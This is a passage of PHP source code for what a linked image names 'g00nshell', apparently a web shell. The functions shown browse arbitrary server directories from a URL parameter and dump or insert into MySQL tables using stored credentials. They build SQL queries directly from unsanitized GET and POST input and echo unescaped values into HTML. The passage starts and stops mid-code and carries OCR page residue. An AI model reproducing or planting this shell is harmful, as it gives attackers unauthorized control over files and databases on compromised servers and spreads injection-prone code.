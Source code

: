     }
    $out .= ");\n";
  }
  $filename = $_GET['table'] . "-" . time() . '.sql';
  header("Content-type: application/octet-stream");
  header("Content-length: " . strlen($out));
  header("Content-disposition: attachment; filename=" . $filename . ";");
  echo($out);
  die();
}
function sqlinsert(){
  style();
  $sqlcon = @mysql_connect($_SESSION['sql_host'] . ':' . $_SESSION['sql_port'], $_SESSION['sql_user'], $_SESSION['sql_password']);
  mysql_select_db($_GET['db'], $sqlcon);
  if($_POST['ins']){
    unset($_POST['ins']);
    $fields = array_flip($_POST);
    $f = implode(",", $fields);
    $v = implode(",", $_POST);
    $query = "INSERT INTO " . $_GET['table'] . " (" . $f . ") VALUES (" . $v . ")";
    mysql_query($query, $sqlcon) or die(mysql_error());
    die("Row inserted.&lt;br&gt;\n&lt;a href='?act=sql&db=" . $_GET['db'] . "&table=" . $_GET['table'] . "'&gt;Go back&lt;/a&gt;");
  }
  $query = "SHOW COLUMNS FROM " . $_GET['table'];
  $result = mysql_query($query, $sqlcon) or die(mysql_error());
  $i = 0;
  $fields = array();
  echo("&lt;form method='POST'&gt;");
  echo("&lt;table&gt;");
  while($row = mysql_fetch_assoc($result)){
    array_push($fields, $row['Field']);
    echo("&lt;tr&gt;&lt;td&gt;&lt;b&gt;" . $fields[$i] . "&lt;/b&gt;&lt;td&gt;&lt;input type='text' name='" . $fields[$i] . "'&gt;&lt;br&gt;\n");
    $i++;
  }
  echo("&lt;/table&gt;");
  echo("&lt;br&gt;\n&lt;input type='submit' value='Insert' name='ins'&gt;");
  echo("&lt;/form&gt;");
}
function nicesize($size){
  if(!$size){return false;}
  if ($size &gt;= 1073741824){return(round($size / 1073741824) . " GB");}
  elseif ($size &gt;= 1048576){return(round($size / 1048576) . " MB");}
  elseif ($size &gt;= 1024){return(round($size / 1024) . " KB");}
  else{return($size . " B");}
}
function files($dir){ // File manipulator function
  style();
  global $self, $curdir;
  if($dir==""){$dir = $curdir;}
  $dirx = explode("/", $dir);
  $files = array();
  $folders = array();
  echo("&lt;form method='GET'&gt;");
  echo("&lt;input type='text' name='dir' value='" . $dir . "' size='40'&gt;");
  echo("&lt;input type='submit' value='Go'&gt;");
  echo("&lt;/form&gt;");
  echo("&lt;h4&gt;File list for ");
  for($i=0;$i&lt;count($dirx);$i++){
    $totalpath .= $dirx[$i] . "/";
    echo("&lt;a href='?dir=" . $totalpath . "'&gt;$dirx[$i]&lt;/a&gt;" . "/");
  }

 [1]: {{ site.baseurl }}/wp-content/uploads/2014/01/g00nshell.png